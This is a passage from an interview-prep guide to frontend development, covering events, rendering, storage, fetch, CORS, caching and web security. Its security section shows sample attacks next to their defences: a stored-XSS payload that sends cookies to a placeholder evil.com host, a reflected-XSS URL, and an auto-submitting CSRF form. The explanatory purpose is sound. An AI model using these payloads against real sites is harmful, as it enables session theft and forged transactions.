  e.stopPropagation();   // stop bubbling/capturing
  e.preventDefault();    // prevent default browser action (form submit, link)
});
```

> **Trap:** Some events don't bubble (`focus`, `blur`, `mouseenter`, `mouseleave`). Use `focusin`/`focusout` for delegation.

### 19.5 Event Delegation

**Simple definition:** Instead of attaching listeners to every child, attach **one listener to the parent** and use `e.target` to figure out which child was clicked. It works because of **event bubbling**.

```js
// ❌ Inefficient — 1000 listeners
document.querySelectorAll('.item').forEach(item => {
  item.addEventListener('click', handleClick);
});

// ✅ Efficient — 1 listener
document.querySelector('#list').addEventListener('click', (e) => {
  if (e.target.matches('.item')) {
    handleClick(e.target);
  }
  if (e.target.closest('.delete-btn')) {
    deleteItem(e.target.closest('.item'));
  }
});

// Using closest() handles clicks on nested children inside the <li>
document.querySelector("#list").addEventListener("click", (e) => {
  const item = e.target.closest("li"); // handle even dynamically added items
  if (!item) return;
  console.log("Clicked:", item.dataset.id);
});
```

**Benefits:** Fewer listeners (better performance, less memory), works for **dynamically added** elements automatically, simpler cleanup.

> **React note:** React already uses delegation internally — since React 17 it attaches listeners to the **root container**, not to `document`. A React version of the pattern is in [29.13](#2913-event-delegation-in-react).

### 19.6 Debounce and Throttle

Both techniques **limit how often a function runs** — critical for performance with high-frequency events.

| | Debounce | Throttle |
|---|---|---|
| Fires | After the user **stops** the action for N ms | At most **once per N ms** |
| Calls executed | One (the last) | Multiple (limited rate) |
| Use case | Search input, form validation, window resize end, autosave | Scroll, resize, mousemove, button spam, infinite scroll |
| Analogy | Elevator door waits until people stop entering | Machine gun with a fixed fire rate |



**Debounce — timer-based (preserves `this`):**

```js
function debounce(fn, delay) {
  let timer;
  return function(...args) {
    clearTimeout(timer);
    timer = setTimeout(() => fn.apply(this, args), delay);
  };
}
// Use: search input, resize handler
const search = debounce((query) => fetchResults(query), 300);
input.addEventListener("input", e => search(e.target.value));
```

**Debounce — simple arrow version and its behavior:**

```js
function debounceSimple(fn, delay) {
  let t;
  return (...args) => {
    clearTimeout(t);
    t = setTimeout(() => fn(...args), delay);
  };
}

const sayHello = debounceSimple(() => console.log("Hello"), 1000);

// Call multiple times quickly
sayHello();
sayHello();
sayHello();

// 🧠 Output: Only one "Hello" will print after 1 second.
// 📌 Explanation: previous calls are cancelled; only the last call executes.
```

**Throttle — flag-based (preserves `this`):**

```js
function throttle(fn, limit) {
  let inThrottle;
  return function(...args) {
    if (!inThrottle) {
      fn.apply(this, args);
      inThrottle = true;
      setTimeout(() => inThrottle = false, limit);
    }
  };
}
// Use: scroll events, button clicks
window.addEventListener("scroll", throttle(updateScrollbar, 100));
```

**Throttle — timestamp-based:**

```js
function throttleTs(fn, limit) {
  let lastCall = 0;
  return (...args) => {
    const now = Date.now();
    if (now - lastCall >= limit) {
      lastCall = now;
      fn(...args);
    }
  };
}

const sayHi = throttleTs(() => console.log("Hi"), 1000);

// Call repeatedly
setInterval(sayHi, 200);

// 🧠 Output: "Hi" prints every 1 second (even though called every 200ms).
// 📌 Explanation: function runs at fixed intervals; extra calls are ignored.
```

> **Real numbers:** Scroll can fire ~100 times/sec → `throttle(fn, 100)` limits it to ~10 times/sec. User types "react" fast → a 300ms debounce makes only **1** API call after they stop.

React versions (`useDebounce` hook, `useMemo(() => debounce(...))`) are in [25.13](#2513-usedebounce-debouncing-with-hooks) and [29.14](#2914-debouncing-and-throttling-in-react).

**Interview traps:**
- Creating a **new** debounced function on every React render resets the timer each time → it never fires. Memoize it.
- Forgetting to cancel a pending debounce on unmount → setState on unmounted component.
- Throttle without a trailing call can drop the **final** event (e.g. the final scroll position). Libraries like lodash support `leading`/`trailing` options.

---

## 20. Browser Rendering and the Critical Rendering Path

### 20.1 How Browsers Render Pages (Critical Rendering Path)

**Simple definition:** The **Critical Rendering Path (CRP)** is the sequence of steps the browser takes to turn HTML, CSS and JS into pixels on screen.

```
1. Download HTML
2. Build DOM tree
3. Download + parse CSS → CSSOM
4. DOM + CSSOM = Render Tree
5. Layout (calculate positions/sizes)
6. Paint (fill pixels)
7. Composite (layer merging, GPU)
```



**Key concepts:**
- **Render-blocking resources:** CSS blocks rendering (the browser won't paint without the CSSOM). JS blocks HTML parsing (use `defer`/`async`).
- **Reflow (Layout):** Expensive — triggered by changing size, position, or content of elements (width, height, margin, font-size, adding nodes, reading `offsetHeight` after a write).
- **Repaint:** Less expensive — triggered by changing color, visibility, background (without layout change).
- **Composite:** Cheapest — CSS `transform`, `opacity` (GPU-accelerated, skip Layout and Paint).

| Change | Layout | Paint | Composite | Cost |
|---|---|---|---|---|
| `width`, `top`, `font-size` | ✅ | ✅ | ✅ | 🔴 High |
| `color`, `background` | — | ✅ | ✅ | 🟡 Medium |
| `transform`, `opacity` | — | — | ✅ | 🟢 Low |

**Optimizations:** Minimize render-blocking resources (critical CSS in `<head>`, defer JS), keep the DOM small, prefer CSS `transform` and `opacity` for animations.

### 20.2 Script Loading: async vs defer

```html
<!-- Normal — blocks HTML parsing while downloading AND executing -->
<script src="app.js"></script>

<!-- async — downloads in parallel, executes immediately when ready (order NOT guaranteed) -->
<script async src="analytics.js"></script>

<!-- defer — downloads in parallel, executes AFTER HTML parsing, in order -->
<script defer src="app.js"></script>
```

| | Blocks parsing? | Execution time | Order preserved | Use for |
|---|---|---|---|---|
| (none) | ✅ Yes | Immediately | ✅ | Rarely needed |
| `async` | Only while executing | As soon as downloaded | ❌ | Independent scripts (analytics, ads) |
| `defer` | ❌ No | After HTML parsed, before `DOMContentLoaded` | ✅ | App scripts that need the DOM |

> `<script type="module">` is deferred by default.

### 20.3 Resource Hints: Preload vs Prefetch

```html
<!-- Preload: "I need this VERY SOON" — loads immediately with high priority -->
<link rel="preload" href="/fonts/inter.woff2" as="font" crossorigin />
<link rel="preload" as="image" href="hero.webp">

<!-- Prefetch: "I might need this later" — loads in browser idle time (next navigation) -->
<link rel="prefetch" href="/about-page.js" />

<!-- ➕ Related hints -->
<link rel="preconnect" href="https://api.example.com" />   <!-- open TCP+TLS early -->
<link rel="dns-prefetch" href="https://cdn.example.com" /> <!-- resolve DNS early -->
```

> In Next.js, `<Link>` automatically prefetches the linked page when it enters the viewport (in production).

### 20.4 DOM Performance: Batch Reads and Writes

**Layout thrashing** = alternating DOM reads (which force layout) and writes in a loop.

```js
// Bad: alternating read/write triggers reflow each time
element.style.height = element.offsetHeight + 10 + "px";
element.style.width = element.offsetWidth + 10 + "px";

// Good: batch reads, then batch writes
const h = element.offsetHeight;
const w = element.offsetWidth;
element.style.height = h + 10 + "px";
element.style.width = w + 10 + "px";
```

Properties that force layout when read: `offsetHeight/Width`, `clientHeight`, `scrollTop`, `getBoundingClientRect()`, `getComputedStyle()`.

### 20.5 requestAnimationFrame

Schedules a callback to run **right before the next repaint**, synced to the display refresh rate (usually 60fps ≈ 16.7ms/frame). Smoother than `setTimeout` and automatically paused in background tabs.

```js
// Animate with transform (composite-only, cheap)
function animate(timestamp) {
  element.style.transform = `translateX(${timestamp * 0.1}px)`;
  requestAnimationFrame(animate); // schedule next frame
}
requestAnimationFrame(animate);

// Animate until a condition is met
let x = 0;
function step() {
  element.style.left = (++x) + "px";
  if (x < 100) requestAnimationFrame(step);
}
requestAnimationFrame(step);

// Cancel
const id = requestAnimationFrame(step);
cancelAnimationFrame(id);
```

### 20.6 Reduce DOM Size

Each extra DOM node costs memory and slows style calculation, layout and traversal. Keep the tree lean: avoid unnecessary wrapper elements (use React Fragments — see [24.11](#2411-fragments)), virtualize long lists ([29.10](#2910-virtualization-for-large-lists)), and paginate.

---

## 21. Web APIs and Storage

### 21.1 Storage APIs Compared

| | localStorage | sessionStorage | Cookies | IndexedDB |
|---|---|---|---|---|
| Capacity | ~5MB | ~5MB | ~4KB | Hundreds of MB |
| Expires | Never (manual clear) | Tab close | Set expiry | Never |
| Scope | Same origin, all tabs | Same origin, **same tab** | Domain/path | Same origin |
| Sent with requests | ❌ No | ❌ No | ✅ Yes (every request) | ❌ No |
| Accessible from JS | Yes | Yes | Yes (unless `HttpOnly`) | Yes (async API) |
| API | Sync | Sync | String parsing | Async |
| Use case | User prefs, theme | Tab-specific state, drafts | Auth tokens (`HttpOnly`) | Large structured data, offline |

```js
// localStorage — persists forever
localStorage.setItem('theme', 'dark');
const theme = localStorage.getItem('theme');
localStorage.removeItem('theme');
localStorage.clear();

// Always stringify/parse JSON (storage holds only strings)
localStorage.setItem('user', JSON.stringify({ name: 'Alice' }));
const user = JSON.parse(localStorage.getItem('user'));

// sessionStorage — same API, clears on tab close
sessionStorage.setItem('draft', text);
sessionStorage.setItem("token", "abc123");

// Cookies
document.cookie = 'name=Alice; path=/; max-age=3600; Secure; SameSite=Strict';
```

**Traps:**
- Never store sensitive tokens in `localStorage` — any XSS can read it (see [23.6 JWT](#236-jwt-json-web-tokens)).
- `localStorage` is **synchronous** — large reads/writes block the main thread.
- `localStorage` doesn't exist on the server — accessing it during SSR (Next.js) throws.

### 21.2 IndexedDB (Large Structured Storage)

```js
const request = indexedDB.open("MyDB", 1);
request.onupgradeneeded = e => {
  const db = e.target.result;
  db.createObjectStore("users", { keyPath: "id" });
};
```

Async, transactional, supports indexes and binary data (Blobs). Libraries like `idb` or Dexie wrap it in promises.

### 21.3 Fetch API

```js
// GET
const res = await fetch('/api/users');
if (!res.ok) throw new Error(`HTTP error: ${res.status}`);
const users = await res.json();

// GET with .then
const data = await fetch("/api/users")
  .then(r => {
    if (!r.ok) throw new Error(`HTTP ${r.status}`);
    return r.json();
  });

// POST
const created = await fetch('/api/users', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ name: 'Alice' }),
});

// With timeout using AbortController
const controller = new AbortController();
const timeout = setTimeout(() => controller.abort(), 5000);

try {
  const res = await fetch('/api/data', { signal: controller.signal });
  const data = await res.json();
} catch (err) {
  if (err.name === 'AbortError') console.log('Request timed out');
} finally {
  clearTimeout(timeout); // always clear, success or failure
}

// Modern shortcut
await fetch('/api/data', { signal: AbortSignal.timeout(5000) });
```

> **Key trap:** `fetch` only rejects on **network errors**. HTTP 4xx/5xx responses **resolve** — you must check `res.ok`. Cookies are sent cross-origin only with `credentials: 'include'`.

### 21.4 CORS — Cross-Origin Resource Sharing

**Problem:** The browser's **Same-Origin Policy** blocks JS from reading responses from a different origin by default. CORS is the mechanism that lets a server opt in.

**Origin = Protocol + Domain + Port**
- `https://myapp.com:443` ≠ `http://myapp.com` (different protocol)
- `https://myapp.com` ≠ `https://api.myapp.com` (different subdomain)

```
Browser → fetch('https://api.other.com/data')
Browser adds header:  Origin: https://myapp.com

Server must respond:  Access-Control-Allow-Origin: https://myapp.com
                   or Access-Control-Allow-Origin: *

If header missing → Browser BLOCKS the response (request was sent, response blocked)
```

**Preflight requests:** For non-simple requests (PUT, DELETE, custom headers like `Authorization`, `Content-Type: application/json`), the browser first sends an `OPTIONS` request to check whether the server allows it.



**Fix on server (Node/Express):**
```js
app.use((req, res, next) => {
  res.header('Access-Control-Allow-Origin', 'https://myapp.com');
  res.header('Access-Control-Allow-Methods', 'GET, POST, PUT, DELETE');
  res.header('Access-Control-Allow-Headers', 'Content-Type, Authorization');
  next();
});
```

**Interview traps:**
- CORS is enforced by the **browser**, not the server — curl/Postman are not affected.
- `Access-Control-Allow-Origin: *` cannot be used with credentials (cookies); you must echo the exact origin and set `Access-Control-Allow-Credentials: true`.
- CORS is **not** a security feature for your server — it protects users' browsers. It does not stop CSRF.
- Dev workaround: a proxy (e.g. Next.js `rewrites` — see [32.8](#328-redirects-and-rewrites)) makes requests same-origin.

### 21.5 Service Workers and PWA

A **Service Worker** is a script that runs in the background (separate thread, no DOM access), acting as a **programmable network proxy** between the page and the network. It powers offline functionality, caching, push notifications, and background sync — the core of a **Progressive Web App (PWA)** (plus a Web App Manifest and HTTPS).

```js
// Register service worker
if ('serviceWorker' in navigator) {
  navigator.serviceWorker.register('/sw.js');
}

// sw.js — Cache on install
self.addEventListener('install', event => {
  event.waitUntil(
    caches.open('v1').then(cache =>
      cache.addAll(['/', '/index.html', '/styles.css', '/app.js'])
    )
  );
});

// Intercept fetch — serve from cache, fallback to network (cache-first)
self.addEventListener('fetch', event => {
  event.respondWith(
    caches.match(event.request).then(cached =>
      cached || fetch(event.request)
    )
  );
});
```

**Lifecycle:** register → install (pre-cache) → activate (clean old caches) → fetch/push/sync events. Common caching strategies: cache-first, network-first, stale-while-revalidate.

### 21.6 Web Workers

Run CPU-heavy JavaScript on a **background thread** to avoid blocking the UI thread.

```js
// main.js
const worker = new Worker('worker.js');

worker.postMessage({ data: largeArray });      // send data to worker

worker.onmessage = (e) => {
  console.log('Result:', e.data);              // receive result
};

// worker.js (separate file, no DOM access)
self.onmessage = (e) => {
  const result = heavyComputation(e.data.data);
  self.postMessage(result);                    // send back result
};
```

**Use case:** Image processing, sorting huge arrays, cryptography, parsing large files — anything that would freeze the UI.

| | Web Worker | Service Worker |
|---|---|---|
| Purpose | Offload CPU work | Network proxy, offline, push |
| Lifetime | Tied to the page | Independent of pages, event-driven |
| DOM access | ❌ | ❌ |
| Intercepts network | ❌ | ✅ |

> Data passed via `postMessage` is **copied** (structured clone). Use **Transferable** objects (e.g. `ArrayBuffer`) to move large data without copying.

### 21.7 Real-Time: WebSockets vs SSE vs Long Polling

| | WebSocket | Server-Sent Events (SSE) | Long Polling |
|---|---|---|---|
| Direction | Bi-directional | Server → Client only | Server → Client |
| Protocol | `ws://` / `wss://` | HTTP | HTTP |
| Complexity | Medium | Low | Low |
| Use case | Chat, games, live collab | Notifications, live feed, AI token streaming | Simple real-time, legacy fallback |
| Auto-reconnect | Manual | Built-in | Manual |

```js
// WebSocket
const ws = new WebSocket('wss://api.example.com/ws');
ws.onopen = () => ws.send(JSON.stringify({ type: 'join', room: 'general' }));
ws.onmessage = (e) => console.log(JSON.parse(e.data));
ws.onclose = () => console.log('Disconnected');

// Server-Sent Events
const sse = new EventSource('/api/events');
sse.onmessage = (e) => console.log(e.data);
sse.addEventListener('notification', (e) => handleNotification(e.data));
```

**Long polling** = the client sends a request, the server holds it open until there's new data (or a timeout), responds, and the client immediately sends another request.

### 21.8 Intersection Observer

Detect when elements enter/leave the viewport **asynchronously** (no scroll listeners, no layout thrashing) — use for lazy loading, infinite scroll, animations, analytics impressions.

```js
const observer = new IntersectionObserver((entries) => {
  entries.forEach(entry => {
    if (entry.isIntersecting) {
      entry.target.classList.add('visible');
      // For lazy loading images:
      const img = entry.target;
      img.src = img.dataset.src;    // load image only when visible
      observer.unobserve(img);      // stop watching after load
    }
  });
}, {
  threshold: 0.1,      // trigger when 10% visible
  rootMargin: '50px',  // trigger 50px before entering viewport
});

document.querySelectorAll('.lazy-img').forEach(img => observer.observe(img));
```

React infinite-scroll hook using this API: [31.3](#313-infinite-scroll-with-intersection-observer).

### 21.9 MutationObserver

Watch for changes to the DOM tree. Callbacks are delivered as **microtasks**.

```js
const observer = new MutationObserver((mutations) => {
  mutations.forEach(mutation => {
    if (mutation.type === 'childList') {
      console.log('Children changed:', mutation.addedNodes);
    }
    if (mutation.type === 'attributes') {
      console.log('Attribute changed:', mutation.attributeName);
    }
  });
});

observer.observe(document.body, {
  childList: true,    // watch for add/remove
  subtree: true,      // watch all descendants
  attributes: true,   // watch attribute changes
});

observer.disconnect(); // stop watching
```

**Use cases:** reacting to third-party widgets injecting DOM, auto-applying behavior to new elements, testing tools.

---

## 22. Networking, APIs and Caching

### 22.1 HTTP/1.1 vs HTTP/2 vs HTTP/3

| Feature | HTTP/1.1 | HTTP/2 | HTTP/3 |
|---|---|---|---|
| Multiplexing | ❌ (one request at a time per connection) | ✅ | ✅ |
| Header compression | ❌ | ✅ (HPACK) | ✅ (QPACK) |
| Server push | ❌ | ✅ (now deprecated in browsers) | ✅ (rarely used) |
| Protocol | TCP | TCP | QUIC (UDP-based) |
| TLS required | Optional | Effectively yes | Yes |
| Head-of-line blocking | Yes | TCP level | ❌ Fixed |

**Practical impact:** With HTTP/1.1, browsers open ~6 connections per domain, so bundling and domain sharding helped. With HTTP/2+, many small files over one connection are fine, so aggressive bundling matters less.

### 22.2 REST vs GraphQL

| | REST | GraphQL |
|---|---|---|
| Endpoints | Multiple (`/users`, `/posts`) | Single (`/graphql`) |
| Over/under-fetching | Common | No — request exactly what you need |
| Versioning | URL versioning (`/v2/`) | Schema evolution |
| Caching | Easy (HTTP cache) | Requires extra setup (client cache like Apollo) |
| Learning curve | Low | Higher |
| Error handling | HTTP status codes | Usually 200 + `errors` array |

```graphql
# GraphQL — get exactly what you need
query {
  user(id: "1") {
    name
    email
    posts { title }
  }
}
```

### 22.3 Optimize API Calls

- **Caching:** Don't re-fetch data that hasn't changed.
- **Pagination:** Fetch 20 items at a time, not 1000 (cursor-based pagination is best for feeds).
- **Deduplication:** If 3 components request the same data simultaneously, make only 1 API call (React Query/SWR do this automatically).
- **Parallelize** independent requests (`Promise.all`), **debounce** search requests, **cancel** stale requests (`AbortController`).

### 22.4 Stale-While-Revalidate (SWR) Strategy

**Strategy:** Show **cached (stale) data immediately**, then fetch fresh data in the background and update.

```
User visits page → Show cached data (instant!) → Fetch fresh data → Update silently
```

> Result: Page feels instant, but data is always eventually fresh. Used by the SWR library, React Query, service workers and the HTTP `Cache-Control: stale-while-revalidate` directive.

### 22.5 CDN — Content Delivery Network

**What it is:** A network of servers distributed globally that serves your static assets (images, JS, CSS — and increasingly HTML and edge functions) from the **nearest location** to the user.

```
Without CDN: Mumbai user → Fetch JS from server in US → ~200ms latency
With CDN:    Mumbai user → Fetch JS from CDN node in Mumbai → ~10ms latency
```

```
User → CDN Edge (cache hit) → fast response
User → CDN Edge (cache miss) → Origin Server → CDN stores → response
```



Next.js on Vercel automatically uses a CDN for all static assets.

### 22.6 HTTP Caching Strategy (Cache-Control)

```
Cache-Control: public, max-age=31536000, immutable
  ↑ For hashed assets (app.abc123.js) — cache forever, never changes

Cache-Control: no-cache
  ↑ Browser revalidates every time (but can use cached if ETag matches → 304)

Cache-Control: no-store
  ↑ Never cache (sensitive data)

Cache-Control: max-age=60, stale-while-revalidate=300
  ↑ Fresh for 60s, serve stale for 300s while revalidating in background
```

| Resource | Recommended header |
|---|---|
| Hashed JS/CSS/images (`main.a1b2c3.js`) | `public, max-age=31536000, immutable` |
| HTML pages | `no-cache` (always revalidate) or short `s-maxage` + SWR |
| API responses (public) | `max-age=60, stale-while-revalidate=300` |
| Personal / sensitive data | `private, no-store` |

> **Cache busting:** Put a content hash in filenames. When the file changes, the URL changes, so the long-lived cache is never stale.

---

## 23. Web Security

### 23.1 XSS — Cross-Site Scripting

**Attack:** Injecting malicious scripts into web pages viewed by other users. The script runs with the victim's privileges (can read non-HttpOnly cookies, localStorage, make requests as the user).

**Types:**

**Stored XSS** — malicious script saved to database, served to all users.
```
User submits: <script>fetch('https://evil.com?c='+document.cookie)</script>
This gets stored in the DB and rendered for every visitor → steals cookies
```

**Reflected XSS** — script in URL, reflected back in response.
```
https://site.com/search?q=<script>alert(1)</script>
```

**DOM-based XSS** — script injected via client-side JavaScript that writes untrusted data into the DOM (e.g. `innerHTML = location.hash`).

**Prevention:**

```js
// 1. Never use innerHTML with user data
element.innerHTML = userInput;        // ❌ dangerous — can inject <script>/
element.textContent = userInput;      // ✅ safe — treats as text, not HTML

// 2. Escape HTML entities
function escapeHTML(str) {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#039;');
}

// 3. Content Security Policy header (see 23.3)
// 4. Use DOMPurify library when you MUST render HTML
import DOMPurify from 'dompurify';
element.innerHTML = DOMPurify.sanitize(userInput); // ✅

// 5. React is safe by default — JSX auto-escapes
<p>{userInput}</p>     // ✅ React escapes this
<p dangerouslySetInnerHTML={{ __html: userInput }} />  // ❌ Use DOMPurify here
<a href={userUrl}>link</a>  // ⚠️ still validate URLs — "javascript:" URLs are dangerous
```

6. Use `HttpOnly` cookies so a successful XSS can't steal session tokens ([23.5](#235-httponly-and-secure-cookies)).

### 23.2 CSRF — Cross-Site Request Forgery

**Attack:** Tricks an authenticated user's browser into making an unwanted request to your server — the browser automatically attaches the user's cookies.

```
User is logged into bank.com (has session cookie)
User visits evil.com which has:
<form action="https://bank.com/transfer" method="POST">
  <input name="amount" value="10000" />
  <input name="to" value="attacker" />
</form>
<script>document.forms[0].submit()</script>

Browser sends request WITH the bank.com cookie → transfer happens!
```

**Prevention:**

```js
// 1. CSRF Token — server sends unique token, client must include it
// Server:
const csrfToken = generateToken();
res.cookie('csrf-token', csrfToken);

// Client:
fetch('/api/transfer', {
  method: 'POST',
  headers: { 'X-CSRF-Token': getCsrfToken() },
});

// Server validates: token in header must match token in session
// (evil.com can't read your cookies/page, so it can't know the token)

// 2. SameSite cookie attribute (modern, best defense)
Set-Cookie: session=abc; SameSite=Strict; Secure; HttpOnly
// SameSite=Strict — cookie NOT sent on cross-site requests
// SameSite=Lax    — cookie sent only on top-level GET navigations (browser default)
// SameSite=None   — always sent (requires Secure)

// 3. Check Origin/Referer headers server-side
// 4. Use POST/PUT/DELETE (not GET) for state-changing actions
```

| | XSS | CSRF |
|---|---|---|
| Attacker's goal | Run their script in your page | Make the user's browser send a request |
| Exploits | Site trusting user input | Site trusting the user's browser (cookies) |
| Main defenses | Escaping, sanitizing, CSP | SameSite cookies, CSRF tokens, Origin checks |
| Note | If you have XSS, CSRF tokens can be stolen too | — |

### 23.3 Content Security Policy (CSP)

CSP is an HTTP header that tells the browser **which sources are allowed to load resources**. It's the strongest defense-in-depth against XSS — even if a script is injected, the browser refuses to run it.

```
Content-Security-Policy: default-src 'self'; script-src 'self' cdn.example.com; style-src 'self' 'unsafe-inline';
```

```html
<!-- Also possible via meta tag: restrict script sources -->
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://trusted.com">
```

```js
// Express example
app.use((req, res, next) => {
  res.setHeader('Content-Security-Policy',
    "default-src 'self'; " +
    "script-src 'self' https://trusted-cdn.com; " +
    "img-src 'self' data: https:; " +
    "style-src 'self' 'unsafe-inline';"
  );
  next();
});
```

| Directive | Controls |
|---|---|
| `default-src` | Fallback for all resource types |
| `script-src` | JavaScript sources |
| `style-src` | CSS sources |
| `img-src` | Image sources |
| `connect-src` | fetch, XHR, WebSocket |
| `frame-ancestors` | Who can embed this page (clickjacking protection) |
| `'self'` | Same origin only |
| `'none'` | Block everything |

> Avoid `'unsafe-inline'` and `'unsafe-eval'` for scripts; use **nonces** or **hashes** for necessary inline scripts.

### 23.4 HTTPS and TLS

**HTTP** sends data in plain text — anyone on the network can read or modify it.
**HTTPS** = HTTP + TLS encryption — data is encrypted in transit, and the server's identity is verified.

**TLS Handshake (simplified):**
1. Client says "I want to connect securely" + supported cipher suites
2. Server sends its **certificate** (contains public key, signed by a Certificate Authority)
3. Client verifies the certificate (trusts CA)
4. They exchange keys (asymmetric crypto) and establish an **encrypted session**
5. All data encrypted with a fast symmetric session key



**Security headers to always include:**
```
Strict-Transport-Security: max-age=31536000; includeSubDomains  (HSTS — force HTTPS)
X-Content-Type-Options: nosniff                                 (no MIME sniffing)
X-Frame-Options: DENY                                           (clickjacking)
Referrer-Policy: strict-origin-when-cross-origin
```

### 23.5 HttpOnly and Secure Cookies

```
Set-Cookie: token=abc123;
  HttpOnly;     ← Cannot be accessed by JavaScript (document.cookie)
  Secure;       ← Only sent over HTTPS
  SameSite=Strict; ← Only sent on same-site requests
  Path=/;
